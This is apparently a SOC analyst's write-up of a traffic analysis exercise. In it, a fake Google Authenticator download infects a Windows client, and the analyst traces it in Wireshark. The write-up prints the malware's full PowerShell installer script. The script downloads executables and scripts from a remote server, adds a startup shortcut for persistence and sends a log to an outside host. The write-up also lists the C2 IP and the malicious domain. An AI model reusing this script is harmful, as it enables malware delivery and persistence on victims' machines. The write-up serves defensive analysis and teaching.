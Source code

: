 ```yaml
---
title: Traffic Analysis Exercise (Download from fake software site)
date: 2025-02-22 12:57:00 +3
categories: SOC
tags: [SOC, Network Traffic Analysis, Wireshark, TCP dump]
image: 
  path: /assets/img/SoftwareDownload.JPG
---
```


On January 22, 2025, an employee reported to Fictional Corp’s Security Operations Center (SOC) that a coworker downloaded a suspicious file. A Bing search for the Google Authenticator application was done and they clicked on the malicious ad which led them to a malicious website where the fake software was installed. After the malware was executed on the victim’s machine, from the network traffic analysis it was observed that it would download other files to the machine. The malware also exhibited persistence capabilities by adding itself to the startup programs folder ensuring that it runs every time the system boots up. Despite no observable malicious actions to date, its presence poses a significant potential threat to the organization.

## LAN Segment Details from the PCAP

* LAN segment range:  **10.1.17[.]0/24**   (**10.1.17[.]0** through **10.1.17[.]255**)
* Domain:  **bluemoontuesday[.]com**
* Active Directory (AD) domain controller:  **10.1.17[.]2** - **WIN-GSH54QLW48D**
* AD environment name:  **BLUEMOONTUESDAY**
* LAN segment gateway:  **10.1.17[.]1**
* LAN segment broadcast address:  **10.1.17[.]255**

## Network Traffic analysis porcess 
This section describes the steps taken in the network traffic analysis, my thought process, and how I reviewed the traffic to find the IoCs that were shared by the Threat Intelligence source, Palo Alto Networks. It most definitely made this process much easier, so let's dive in!

Considering that the incident involved visiting a malicious website, it was logical to start by filtering the packets for DNS traffic. I identified one of the subdomains used for the malicious ads, i.e., `google-authenticator.burleson-appliance.net/`.

![Alt Text](/assets/img/DFS1.JPG)

The next step involved filtering for HTTP requests in order to check for the fake software that was installed and other files that were pulled from the network when it was executed on the victim's machine. From the screenshot below, we can see `TeamViewer.exe`, `pas.ps1`, `29842.ps1`, and many others which were retrieved.

![Alt Text](/assets/img/DFS2.JPG)

In the screenshot below, it shows when I followed the TCP stream of the highlighted packets, and the more I scrolled down, I identified more files that were being pulled into the victim's machine. It's how I found `29842.ps1`.

![Alt Text](/assets/img/DFS3.JPG)

I also got to see the script that was used to install the fake TeamViewer application. This shows us the behavior of the fake software once it gets to the victim's machine. To summarize what it does, the script downloads and executes files (i.e., `TeamViewer.exe`, `Teamviewer_Resource_fr.dll`, `TV.dll`, and `pas.ps1` files) from a remote server; these are initial actions the fake software takes to establish itself in the victim's machine. It also created a shortcut in the startup folder so that it can run every time the system starts. This is a way in which attackers ensure persistence in the system. The script also sends logs to a remote server, which indicates that the fake software might be communicating with an external attacker, potentially sending sensitive data or receiving commands. This summary provides a behavior analysis of the fake software.

```javascript
function Download-Files($panelIP, $files, $filesDir){
    $web = New-Object System.Net.WebClient
    
    try {
        if(!(Test-Path $filesDir)) {
            New-Item $filesDir -ItemType Directory | Out-Null
        }
    } catch {
        return @{'status' = 'error'; 'message' = 'error while creating startup directory'}
    }
    
    foreach($file in $files) {
        try {
            $link = $file.link
            $fileName = $file.name
            $filePath = "$filesDir\$($file.name)"
            $web.DownloadFile($link, $filePath)
            if($fileName -eq $startupFile){
                $exePath = $startupFile
            }
        } catch {
            return @{'status' = 'error'; 'message' = "Error while download file. Filename: $($file.name). Link: $($link). Error: $($Error[0].exception.message)"}
        }
    }


    return @{'status' = 'success'}
}


function Create-Shortcut($filePath, $shortCutpath){
    $WshShell = New-Object -comObject WScript.Shell
    $Shortcut = $WshShell.CreateShortcut($shortCutpath)
    $Shortcut.TargetPath = $filePath
    $Shortcut.Save()
}


function Invoke-Startup($panelIP, $files, $filesDir, $startupFileName){
    $result = Download-Files $panelIP $files $filesDir
    if ($result.status -eq 'error'){
        return $result
    }


    #$startupFilePath = "$filesDir\$startupFileName"
    $startupFilePath = "C:\ProgramData\huo\TeamViewer.exe"
    $shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"


    try {
        Create-Shortcut $startupFilePath $shortcutPath
    } catch {
        return @{'status' = 'error'; 'message' = "Error while creating shortcut."}
    }


    return @{'status' = 'success'; 'message' = 'startup shortcut created'}
}


function Send-Log($result){
    $log = "?k=$result"
    $uploadUrl = $url + $log
    $web = New-Object System.Net.WebClient
    $web.DownloadString($uploadUrl)
}


function ConvertTo-StringData($hashTable){
        foreach ($item in $hashTable) {
            foreach ($entry in $item.GetEnumerator()) {
                "{0} = {1}; " -f $entry.Key, $entry.Value
            }
        }
}


$filesDownloadLink = $ip + 'api/file/get-file/'
$filesDir = 'C:\ProgramData\huo'
$files = @(
    @{'name' = 'TeamViewer.exe'; 'link' = $filesDownloadLink + 'TeamViewer'},
    @{'name' = 'Teamviewer_Resource_fr.dll'; 'link' = $filesDownloadLink + 'Teamviewer_Resource_fr'},
    @{'name' = 'TV.dll'; 'link' = $filesDownloadLink + 'TV'}
    @{'name' = 'pas.ps1'; 'link' = $filesDownloadLink + 'pas.ps1'}
)
$startupFile = 'TeamViewer.exe'


$result = Invoke-Startup $panelIP $files $filesDir $startupFile
$result = ConvertTo-StringData($result)
Send-Log($result)p, li { white-space: pre-wrap; }hr { height: 1px; border-width: 0; }li.unchecked::marker { content: "\2610"; }li.checked::marker { content: "\2612"; }
```

I also took note of the server that supported the downloads: `5.252.153.241`.

![Alt Text](/assets/img/DFS4.JPG)

The following screenshots show an alternative method of finding more files that were retrieved from the malicious server. From the previous step, we already identified the IP address of the server hosting the malicious ad; hence, filtering the packets by specifying its IP address when filtering for HTTP requests can be useful in narrowing the traffic down to find much more valuable traffic.

![Alt Text](/assets/img/DFS5.JPG)

![Alt Text](/assets/img/DFS6.JPG)

## Questions 

**What is the IP address of the infected Windows client?** `10.1.17.215` 
At the start, when we filtered for DNS traffic, the IP that visited one of the malicious ad's subdomains is the infected Windows client.

![Alt Text](/assets/img/DFS7.JPG)

**What is the mac address of the infected Windows client?** `Intel_26:4a:74 (00:d0:b7:26:4a:74)`
This information was obtained from the very same packet from the previous question. The screenshot below shows its details where I got the MAC address.

![Alt Text](/assets/img/DFS8.JPG)

**What is the host name of the infected Windows client?** `DESKTOP-L8C5GSJ`
Since I already knew the IP address of the affected machine, I used it to filter the packets to display NBNS packets associated with the infected Windows client.

![Alt Text](/assets/img/DFS9.JPG)

![Alt Text](/assets/img/DFS10.JPG)

**What is the user account name from the infected Windows client?** `shutchenson`
I searched for Kerberos authentication, which is used by AD DC, to see if I could find packets that would reveal the user account name. I selected the first packet and viewed its details and got `shutchenson`.

![Alt Text](/assets/img/DFS11.JPG)

**What is the likely domain name for the fake Google Authenticator page?**
From a previous DNS filtered search, I found a subdomain which is also listed as one of the main website's subdomains that could likely be the Google Authenticator page.

![Alt Text](/assets/img/DFS12.JPG)

**What are the IP addresses used for C2 servers for this infection?**
Server used to download the malicious files: `5.252.153.241`

![Alt Text](/assets/img/DFS13.JPG)

![Alt Text](/assets/img/DFS14.JPG)


